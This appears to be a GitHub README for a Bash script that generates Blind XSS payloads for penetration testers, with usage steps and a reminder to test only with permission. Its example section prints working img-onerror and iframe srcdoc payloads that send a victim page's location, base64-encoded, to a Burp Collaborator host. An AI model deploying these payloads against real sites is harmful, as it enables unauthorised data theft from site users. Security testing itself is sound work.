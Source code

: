 # Blind XSS Payload Generator

A simple, customizable Blind XSS payload generator tool for penetration testers and security researchers. This script takes user input for a Burp Collaborator or similar endpoint URL, replaces placeholders in pre-defined Blind XSS payloads, and outputs a ready-to-use list of payloads that can be used in security assessments.

# Features
- Pre-defined Blind XSS payloads for various scenarios
- Easy customization of payloads by specifying your endpoint URL
- Generates payloads that trigger callbacks with valuable information from vulnerable web applications

# Requirements
- Bash (Unix-based OS recommended)
- curl (for testing and verification, if needed)

# Usage
1. Clone the repository:

```
git clone https://github.com/yourusername/blind_xss_payload_generator.git
cd blind-xss-payload-generator
```

2. Run the script:

```
./generate_payloads.sh
```

The script will ask for:

- A Burp Collaborator or similar URL
- A filename for saving the generated payloads

3. Inspect the output: The output file (e.g., blind_xss_payloads.txt) will contain customized Blind XSS payloads using your specified endpoint URL.

# Example

```
$ ./generate_payloads.sh
Enter your Burp Collaborator URL: https://example.burpcollaborator.net
Enter the output filename (e.g., blind_xss_payloads.txt): my_blind_xss_payloads.txt
```

Payloads generated and saved to my_blind_xss_payloads.txt

Some examples of the generated payloads:

```html
<img src="https://example.burpcollaborator.net/image">
<img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>
<iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>
```

# Notes
Testing in Legal Environments: This tool should only be used in environments where you have permission to perform security assessments. Unauthorized testing may violate laws and ethical guidelines.

Customization: The payloads can be modified directly in the script or via del.txt and blind_xss_payloads.txt files for even more variations.

# License
This project is licensed under the MIT License.


